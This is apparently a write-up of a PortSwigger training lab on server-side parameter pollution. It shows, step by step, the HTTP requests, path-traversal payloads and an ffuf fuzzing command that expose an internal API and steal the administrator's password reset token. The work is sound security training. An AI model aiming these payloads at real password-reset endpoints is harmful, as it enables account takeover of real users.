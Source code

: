[Lab](https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-rest-url)

---

Like the previous one, I have to go on `/forgot-password` to do the tricks. I sent to burp the classic following
**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 60

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=administrator
```

**Response**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"result":"*****@normal-user.net","type":"email"}
```

Then I used the `#` encoded in `%23` to try to trigger some behavior

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 63

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=administrator%23
```

**Response**
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 86

{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

The `Invalid route` for `administrator#` suggest that the server may have placed the input in the path of the server-side request.
Now let's try with `?` as `%3F`

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 63

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=administrator%3F
```

**Response**
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 86

{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```

There is still the `Invalid route` error message, this suggests that the input may be placed in a URL path, as the `?` indicates the start of the query string and therefore truncates the url path.
Now let's try with `./administrator`

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 62

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=./administrator
```

**Response**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"result":"*****@normal-user.net","type":"email"}
```

Using a relative path `./` and getting no errors suggest that I could try to exploit this one by going up in the tree. So I'll try to trigger a new behavior like this `../../%23` until I get a new error message

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 62

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=../../../../%23
```

**Response**
```http
HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 250

{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

Here is the new error message. Now I'll try to find an api endpoint by fuzzing with the following wordlist
```text
/usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

```shell
ffuf -X POST -d 'csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=../../../../FUZZ%23' -b 'session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM' -u 'https://0a57003604720b478127ed2700f00020.web-security-academy.net/forgot-password' -w '/usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt' -fw 34
```

This gave me `openapi.json`, which I'll try in burp

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 74

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=../../../../openapi.json%23
```

**Response**
```http
HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 629

{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```

I asked chatgpt to format it and he gave me the path `/api/internal/v1/users/{username}/field/{field}`

I found the reset password function in the `forgotPassword.js`

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

The name of the field seems to be `passwordResetToken`, which I'll try

**Request**
```http
POST /forgot-password HTTP/2
Host: 0a57003604720b478127ed2700f00020.web-security-academy.net
Cookie: session=wGUW0Vk4QAWZt1anFhSPdt7F0ES4yprM
Content-Length: 122

csrf=t6WAkgIuCSq72pfK7pNfzCViegahBXkE&username=../../../../api/internal/v1/users/administrator/field/passwordResetToken%23
```

**Response**
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 82

{
  "type": "passwordResetToken",
  "result": "0w93aox6copjky47wiccgw43aa97ff6p"
}
```

Both field `username` and `email` works too but `passwordResetToken` is what I need for the final destination `/forgot-password?passwordResetToken=0w93aox6copjky47wiccgw43aa97ff6p`

Just had to choose a new password, connect and delete `carlos`

